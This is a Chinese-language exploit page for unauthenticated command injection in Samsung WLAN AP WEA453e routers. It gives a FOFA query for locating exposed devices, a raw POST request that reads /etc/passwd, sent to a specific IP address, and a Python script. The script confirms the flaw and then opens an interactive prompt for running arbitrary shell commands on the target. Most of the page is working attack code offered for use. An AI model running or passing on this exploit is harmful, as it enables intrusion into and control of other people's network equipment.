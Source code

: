 <languages  />

FOFA
----

    title=="Samsung WLAN AP"

漏洞利用
--------

發生以下請求：

    POST /(download)/tmp/a.txt HTTP/1.1
    Host: 175.199.182.152
    Connection: close
    Content-Length: 48

    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if "root" in response.text and response.status_code == 200:
                print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
                while True:
                    cmd = str(input("\033[35mCmd >>> \033[0m"))
                    POC_2(target_url, cmd)
            else:
                print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, cmd):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[36m{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

參考
----

<https://mp.weixin.qq.com/s/rse0hnR6C2AfvzWiN7t8Qg>